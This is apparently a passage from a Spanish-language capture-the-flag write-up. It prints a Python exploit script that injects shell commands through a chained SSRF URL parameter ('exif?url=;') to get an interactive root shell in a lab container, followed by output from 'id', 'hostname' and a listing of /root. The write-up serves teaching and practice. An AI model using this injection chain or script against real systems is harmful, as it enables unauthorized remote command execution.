 ```python

if len(sys.argv) < 2:
    print("\nUso:\n\tpython3 %s <ip>" % sys.argv[0])
    sys.exit(1)

url = 'http://' + sys.argv[1]

def makeRequest(main_url, command):
    
    url_command = main_url + command
    r = requests.get(url_command)
    
#    data = re.findall('information\n(.*?)\n', r.text)[0]
    return r.text

def makeCommand():

    main_url = url + '/api/exif?url=http://api-dev-backup:8080/exif?url=;'
    
    while True:
        
        command = input('$~ ')

        data = makeRequest(main_url, command)
        
        output = re.sub('.*\n', '', data, count=5)
        output = output.replace("               ----------------------------------------\n               curl: no URL specified!\ncurl: try 'curl --help' or 'curl --manual' for more information\n", "")

        print(output)

if __name__ == "__main__":
    makeCommand()

```
Simplemente lo ejecutamos y le tenemos que pasar como argumento la ip.
```bash
❯ python3 exploit.py 10.10.150.154
$~ id
uid=0(root) gid=0(root) groups=0(root)

$~ 
```
Si miramos la ip nos daremos cuenta que estamos ejecutando comandos en lo que parece un contenedor aunque me parece extraño la ip que tiene.
```bash
$~ hostname -I
192.168.112.3 
```
Enumerando un poco en el directorio root hay un proyecto de git.
```bash
$~ ls -la /root
total 28
drwx------ 1 root root 4096 Jan  7  2021 .
drwxr-xr-x 1 root root 4096 Jan  7  2021 ..
lrwxrwxrwx 1 root root    9 Jan  6  2021 .bash_history -> /dev/null
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 1 root root 4096 Jan  7  2021 .git
-rw-r--r-- 1 root root   53 Jan  6  2021 .gitconfig
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-rw-r-- 1 root root  201 Jan  7  2021 dev-note.txt

$~ 
```
